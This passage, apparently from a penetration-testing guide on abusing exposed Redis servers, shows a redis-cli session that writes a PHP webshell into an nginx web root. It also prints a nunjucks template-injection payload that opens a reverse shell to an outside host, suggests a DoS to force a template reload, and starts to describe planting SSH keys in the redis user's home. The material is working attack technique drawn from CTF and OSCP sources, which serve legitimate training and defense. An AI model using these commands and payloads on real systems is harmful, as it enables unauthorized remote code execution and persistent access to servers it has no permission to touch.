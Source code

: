 ```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

​If the webshell access exception, you can empty the database after backup and try again, remember to restore the database.

### Template Webshell

Like in the previous section you could also overwrite some html template file that is going to be interpreted by a template engine and obtain a shell.

For example, following [**this writeup**](https://www.neteye-blog.com/2022/05/cyber-apocalypse-ctf-2022-red-island-writeup/), you can see that the attacker injected a **rev shell in an html** interpreted by the **nunjucks template engine:**

```javascript
{{ ({}).constructor.constructor(
  "var net = global.process.mainModule.require('net'),
       cp = global.process.mainModule.require('child_process'),
       sh = cp.spawn('sh', []);
   var client = new net.Socket();
   client.connect(1234, 'my-server.com', function(){
      client.pipe(sh.stdin);
      sh.stdout.pipe(client);
      sh.stderr.pipe(client);
   });"
)()}}
```

> [!WARNING]
> Note that **several template engines cache** the templates in **memory**, so even if you overwrite them, the new one **won't be executed**. In this cases, either the developer left the automatic reload active or you need to do a DoS over the service (and expect that it will be relaunched automatically).

### SSH

Example [from here](https://blog.adithyanak.com/oscp-preparation-guide/enumeration)

Please be aware **`config get dir`** result can be changed after other manually exploit commands. Suggest to run it first right after login into Redis. In the output of **`config get dir`** you could find the **home** of the **redis user** (usually _/var/lib/redis_ or _/home/redis/.ssh_), and knowing this you know where you can write the `authenticated_users` file to access via ssh **with the user redis**. If you know the home of other valid user where you have writable permissions you can also abuse it:
